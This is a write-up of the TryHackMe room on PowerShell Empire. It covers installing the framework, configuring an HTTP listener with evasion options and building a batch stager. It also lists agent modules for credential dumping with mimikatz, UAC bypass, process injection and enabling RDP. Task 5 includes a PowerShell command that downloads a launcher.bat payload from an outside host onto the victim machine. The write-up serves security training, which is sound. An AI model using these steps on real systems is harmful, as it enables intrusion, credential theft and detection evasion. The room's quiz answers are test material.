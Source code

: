 ```yaml
---
title: "RP PS Empire - TryHackMe"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "RP: PS Empire - TryHackMe writeup"
---
```


# RP: PS Empire

[TryHackMe | RP: PS Empire](https://tryhackme.com/room/rppsempire)

<div className="Image__Medium">
  <img src="https://i.imgur.com/0xn4lAt.jpg" alt="blog_image" />
</div>

PowerShell Empire is a powerful post-exploitation framework which allows us to perform various functions such as privesc, password gathering, situational awareness, and many more!

Link to the official website: [https://www.bc-security.org/post/the-empire-3-0-strikes-back](https://www.bc-security.org/post/the-empire-3-0-strikes-back)

Clone the following GitHub page and run the initial setup script.

[https://github.com/BC-SECURITY/Empire/](https://github.com/BC-SECURITY/Empire/)

## [Task 2] Install

**#1 cd /opt**

```bash
Question Done
```

**#2 git clone [https://github.com/BC-SECURITY/Empire/](https://github.com/EmpireProject/Empire)**

```bash
Question Done
```

**#3 cd /opt/Empire**

```bash
Question Done
```

**#4 ./setup/install.sh**

```bash
Question Done
```

**#5 When prompted, enter in a server negotiation password. This can be left blank for random generation, however, you should record this somewhere such as a LastPass vault.**

```bash
Question Done
```

**#6 Launch Empire with either ./empire or /opt/Empire/empire**

```bash
Question Done
```

## [Task 3] Listeners

If you're going to play ball, first you have to learn how to catch. Similar to 'catching' a reverse shell with Netcat, we first have to set up a listener in order to properly handle any sort of agent we would install on our victim machine. Answer the following questions using the listeners help menu and then spawn a basic listener.

---

**#1 Once empire has launched, type help to view the various menus. Which menu to we launch to access listeners?**

```bash
listeners
```

**#2 Launch the listeners menu. In a manner similar to cobalt strike/metasploit, this will launch a contextual submenu. For the sake of this tutorial, we will be using an http listener in order to catch our connections. Type the command 'uselistener http' now. You can double-tap tab to view all options for listeners following typing 'uselistener'**

```bash
Question Done
```

**#3 What command can we now type to view all of the options related to our selected listener type?**

```bash
info
```

**#4 Once the information regarding the listener pops up, peruse this for some of the more interesting options we can set in order to disguise our actions more. Which option can we use to set specific times when our listener will be active?**

```bash
WorkingHours
```

**#5 Similar to changing/spoofing what browser you are using on the internet, what option can we set to appear as a different user agent (i.e. chrome, firefox, etc)?**

```bash
DefaultProfile
```

**#6 What option can we use to set the port which the listener will bind to?**

```bash
port
```

**#7 In addition to changing our browser profile, we can change what our server appears as. What option can we set to change this?**

```bash
ServerVersion
```

**#8 Launch our newly created listener on port 80 with the command 'execute'. What message is displayed following successfully launching the listener?**

```bash
Listener successfully started
```

**#9 We can verify that our listener is now active by typing what command?**

```bash
listeners
```

## [Task 4] Stagers

Stagers metaphorically and literally set the stage for post-exploitation by retrieving the remaining code and associated information necessary to spawn a full-fledged agent.

---

**#1 First, type the command 'usestager' and double-tap tab to view all options we have for stagers. Which option allows us to use a batch file?**

```bash
windows/launcher_bat
```

**#2 Let's finish our previous command and select the batch file option. Press enter to finalize this. What is our new path to the 'module' we have selected?**

```bash
stager/windows/launcher_bat
```

**#3 Since we've previously set our listener to use http, we must now set the associated options within our stager we are building to match that. What option must we set in order to accomplish this?**

```bash
Listener
```

**#4 Type execute to finish creating our stager. Where is the stager saved?**

```bash
/tmp/launcher.bat
```

**#5 Using any shell you have previously gained into our victim system transport the stager batch file to the system and execute it. This can be done in numerous ways depending on the stager used, be prepared to be flexible with your transportation methods similarly to how you might handle an msfvenom package.**

```bash
Question Done
```

## [Task 5] Agents and Post-Exploitation

Interact with our ses.. er agents and do neat things.
Download the evil file to the windows computer.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.9.45.74/files/launcher.bat','C:\\Users\\Jon\\Documents\\launcher.bat](http://10.9.45.74/files/launcher.bat','C:%5C%5CUsers%5C%5CJon%5C%5CDocuments%5C%5Clauncher.bat)')"

```

**#1 First, type agents to view our registered agents.**

```bash
Question Done
```

**#2 Once you've typed agents to list the registered agents, the agents submenu will become active. Use the help menu to answer the following questions.**

```bash
Question Done
```

**#3 What command do we use to interact with an agent?**

```bash
interact
```

**#4 What about if we wanted to list any usernames and passwords we have gathered?**

```bash
creds
```

**#5 And if we wanted to 'deactivate' an agent for a while to avoid detection?**

```bash
sleep
```

**#6 How about if we wanted to delete an agent or disconnect it?**

```bash
kill
```

**#7 Moving into the post exploitation modules, what command can we use to search through these?**

```bash
searchmodule
```

**#8 We'll start with the most important module, find the module which plays a specific AC/DC song.**

```bash
python/trollsploit/osx/thunderstruck
```

**#9 What if we wanted to perform an lsa dump with a certain popular windows credential gathering tool?**

```bash
powershell/credentials/mimikatz/lsadump
```

**#10 Sometime we might not have the permissions level that we require to perform further actions, what module set might we have to use to get around UAC?**

```bash
bypassuac
```

**#11 What module family allows us to gather additional information about the network we are on?**

```bash
recon
```

**#12 Our process we have compromised might not be the most stable, how do we migrate to another process? (This will have a specific module answer)**

```bash
powershell/management/psinject
```

**#13 Last but not least, what module can we use to turn on remote desktop access for our purposes?**

```bash
powershell/management/enable_rdp
```
